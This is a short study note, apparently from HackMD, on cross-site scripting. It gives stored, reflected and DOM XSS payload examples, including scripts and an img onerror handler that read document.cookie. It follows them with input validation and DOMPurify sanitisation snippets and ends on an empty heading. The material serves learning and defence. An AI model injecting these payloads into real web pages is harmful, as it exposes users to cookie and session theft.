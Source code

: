 ## <img src="https://hackmd.io/_uploads/rJ_vxRola.png" width=60> <img src="https://hackmd.io/_uploads/rJSKT6ie6.png" width=60> [<span style=color:darkred>**Vulnerability Details**</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#vulnerability-details)

### <span style=color:darkred>Persistent</span>
### <span style=color:red>Stored</span>
#### Payload
```javascript!
<script>alert(window.origin)</script>
```
```javascript!
<script>print()</script>
```
```javascript!
<script>alert(document.cookie)</script>
```

### <span style=color:darkred>Non-Persistent</span>
```javascript
// Must employ Social Engineer and specific URL to lure victim click
```
### <span style=color:red>Reflected XSS</span>
#### Payload
```javascript
http://SERVER_IP:PORT/index.php?task=<script>alert(window.origin)</script>
```

### <span style=color:red>DOM (Document Object Model) XSS</span>
#### Payload
```javascript
<img src="" onerror=alert(document.cookie)>
```
---
##  [<span style=color:>**DOMPurify**</span>](https://github.com/cure53/DOMPurify#dompurify)

### <span style=color:darkblue>From-End</span>
#### Input validation
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
#### Input Sanitization
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
}
```

### <span style=color:darkblue>From-End</span>
